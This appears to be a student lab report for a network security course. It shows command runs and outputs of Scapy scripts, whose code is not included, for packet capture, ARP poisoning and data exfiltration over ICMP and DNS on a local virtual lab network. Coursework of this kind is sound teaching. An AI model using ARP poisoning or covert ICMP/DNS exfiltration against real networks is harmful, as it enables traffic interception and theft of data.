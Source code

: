 # TP4 SECU : Exfiltration

# Sommaire

- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

[Script](./Scripts/ping.py)

```sh
$ sudo python3 ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Answers :
 - QueryAnswer(query=<IP  frag=0 proto=icmp src=192.168.56.5 dst=192.168.56.1 |<ICMP  type=echo-request |>>, answer=<IP  version=4 ihl=5 tos=0x0 len=28 id=62475 flags= frag=0 ttl=64 proto=icmp chksum=0x957e src=192.168.56.1 dst=192.168.56.5 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
```

🌞 **`tcp_cap.py`**

[Script](./Scripts/tcp_cap.py)

```bash
$ sudo python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 142.250.179.78
- Adresse IP dst : 10.0.2.15
- Port TCP src : 443
- Port TCP dst : 47168
```

🌞 **`dns_cap.py`**

[Script](./Scripts/dns_cap.py)

```bash
$ dig ynov.com

; <<>> DiG 9.19.17-1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54956
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ynov.com.			IN	A

;; ANSWER SECTION:
ynov.com.		2	IN	A	104.26.11.233
ynov.com.		2	IN	A	172.67.74.226
ynov.com.		2	IN	A	104.26.10.233

;; Query time: 8 msec
;; SERVER: 192.168.1.1#53(192.168.1.1) (UDP)
;; WHEN: Tue Nov 28 18:52:33 CET 2023
;; MSG SIZE  rcvd: 85
```

En même temps : 

```bash
$ sudo python3 dns_cap.py
104.26.11.233 ; 172.67.74.226 ; 104.26.10.233 ;
```

🌞 **`dns_lookup.py`**

[Script](./Scripts/dns_lookup.py)

```bash
$ sudo python3 dns_lookup.py
104.26.10.233 ; 104.26.11.233 ; 172.67.74.226 ;
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

[Script](./Scripts/arp_poisoning.py)

Depuis la cible :

```bash
$ ip a | grep 'inet ' | grep vboxnet0
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
$ ip n s | grep 10.13.33.37
```

Depuis l'attaquant :

```bash
$ ip a | grep 'inet ' | grep eth0 
    inet 192.168.56.5/24 brd 192.168.56.255 scope global dynamic noprefixroute eth0
$ sudo python3 arp_poisoning.py   
poisoning ongoing...
```

Depuis la cible :

```bash
$ ip n s | grep 10.13.33.37
10.13.33.37 dev vboxnet0 lladdr de:ad:be:ef:ca:fe STALE
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

[Script](./Scripts/icmp_exf_send.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.1 t
.
Sent 1 packets.
```

[Capture du ping.](./icmp_exfr_send.pcapng)

Contenu du ping en ascii : 
''NaE@À¨8À¨8ÿt

🌞 **`icmp_exf_rcv.py`**

[Script](./Scripts/icmp_exf_rcv.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.5 t
.
Sent 1 packets.
```

```bash
$ sudo python3 icmp_exf_rcv.py
t
```

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

[Script](./Scripts/dns_exfiltration_send.py)

```bash
$ sudo python3 dns_exfiltration_send.py 192.168.56.1 testing_this_test_to_test_my_test_oki
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```

[Capture des requêtes DNS](./dns_exfiltration_test.pcapng)
